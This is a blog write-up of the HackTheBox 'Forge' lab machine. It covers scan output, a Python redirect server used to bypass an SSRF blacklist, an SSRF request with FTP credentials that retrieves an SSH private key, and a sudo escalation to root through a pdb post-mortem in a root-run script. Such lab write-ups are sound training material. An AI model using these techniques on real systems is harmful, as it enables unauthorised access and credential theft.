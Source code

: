 ```yaml
---
title: "HackTheBox - Forge"
date: 2022-07-29T12:26:51-04:00
summary: "Writeup for the Forge lab machine from HackTheBox"
draft: true
tags: []
author: "Trent Deal"
showToc: true
TocOpen: false
hidemeta: false
comments: false
description: ""
disableHLJS: false
disableShare: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: false
ShowRssButtonInSectionTermList: true
UseHugoToc: false
cover:
    image: "" # image path/url
    alt: "" # alt text
    caption: "" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
categories:
- Hacking
tags:
- HackTheBox
---
```


```nohighlight
# Nmap 7.92 scan initiated Wed Jul 27 18:34:26 2022 as: nmap -sS -sCV -oA scans/nmap/init 10.10.11.111
Nmap scan report for 10.10.11.111
Host is up (0.025s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://forge.htb
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 27 18:34:35 2022 -- 1 IP address (1 host up) scanned in 9.23 seconds
```

- nmap does not follow redirect to http://forge.htb, add it to /etc/hosts and run gobster vhost
    - ftp is also filtered, yay

```nohighlight
trent@kali[Forge]$ cat /etc/hosts
...
10.10.11.111    forge.htb admin.forge.htb
...
```

```nohighlight
trent@kali[Forge]$ gobuster vhost -u http://forge.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -r
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://forge.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/07/27 18:49:01 Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.forge.htb (Status: 200) [Size: 27]

===============================================================
2022/07/27 18:49:25 Finished
===============================================================
```

![Admin interface only available on localhost](/images/forge/website/admin/only_localhost_allowed.png)

![Homepage for http://forge.htb](/images/forge/website/homepage.png)

- http://forge.htb/upload can be used to upload images by file or url
 
- uploading by url and making it callback to a netcat listener shows the request was made by
  python-requests/2.25.1, so the server is likely running some python web server

![Upload from url](/images/forge/website/upload_from_url.png)
![python-requests version](/images/forge/website/python_requests_callback.png)

- url uploads only accept http/https

![Blacklist protocols](/images/forge/website/forge_htb_blacklisted_url_uploads.png)

- Cant make requests to http://forge.htb or http://admin.forge.htb

![Blacklisted urls](/images/forge/website/forge_htb_blacklisted_url_uploads.png)

- we can get around the blacklist by redirecting to where we actually want to go. We then can
  navigate to the generated link on the website and we can view the raw page in burpsuite

```python
#!/usr/bin/env python3

# https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass#bypass-via-redirect
# python3 ./redirector.py 8000 http://127.0.0.1/

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("Usage: {} <port_number> <url>".format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

- We cant see the site in the browser cause it tries to render the page as a jpg, but we can see the
  html in Burpsuite

![Successful ssrf attack](/images/forge/website/admin/homepage_html_via_ssrf_redirect.png)

- we have found some ftp creds, yay
    - user:heightofsecurity123!

![FTP credentials and internal /upload](/images/forge/website/admin/announcements.png)

- making a call to http://admin.forge.htb with the creds shows the ftp files, had to escape the ! in
  the password to make the script work
  
```class="nohighlight"
trent@kali[Forge]$ ./redirect.py "http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123%21@10.10.11.111"
10.10.11.111 - - [28/Jul/2022 17:14:08] "GET / HTTP/1.1" 302 -
```

- running the same script to search for .ssh in ftp shows there is an id_rsa there. Score

![ftp ssh folder](/images/forge/ftp/ssh_folder.png)
![ftp id_rsa](/images/forge/ftp/id_rsa.png)

- we can then login as the "user" user with ssh

![Shell as user](/images/forge/shell_as_user.png)
![User flag](/images/forge/user_get.png)

- running linpeas shows "user" can run "/usr/bin/python3 /opt/remote-manage.py" without a password 

![linpeas sudo -l results](/images/forge/linpeas/sudo_l.png)

```python
# /opt/remote-manage.py

#!/usr/bin/env python3
import socket
import random
import subprocess
import pdb

port = random.randint(1025, 65535)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('127.0.0.1', port))
    sock.listen(1)
    print(f'Listening on localhost:{port}')
    (clientsock, addr) = sock.accept()
    clientsock.send(b'Enter the secret passsword: ')
    if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
        clientsock.send(b'Wrong password!\n')
    else:
        clientsock.send(b'Welcome admin!\n')
        while True:
            clientsock.send(b'\nWhat do you wanna do: \n')
            clientsock.send(b'[1] View processes\n')
            clientsock.send(b'[2] View free memory\n')
            clientsock.send(b'[3] View listening sockets\n')
            clientsock.send(b'[4] Quit\n')
            option = int(clientsock.recv(1024).strip())
            if option == 1:
                clientsock.send(subprocess.getoutput('ps aux').encode())
            elif option == 2:
                clientsock.send(subprocess.getoutput('df').encode())
            elif option == 3:
                clientsock.send(subprocess.getoutput('ss -lnt').encode())
            elif option == 4:
                clientsock.send(b'Bye\n')
                break
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
finally:
    quit()
```

- script runs pdb when it hits an exception, which we can force by sending a lot of characters to
  the socket.
    - To do this, we need to open an ssh session that runs the script, and another that connects to
      it, since it only listens on localhost
    - then we can import os and execute code from there in pdb
    - UPDATE: it actually just needs to be a non number, but 1024 "A" also works

![Shell as root](/images/forge/shell_as_root.png)
![Root flag](/images/forge/root_get.png)

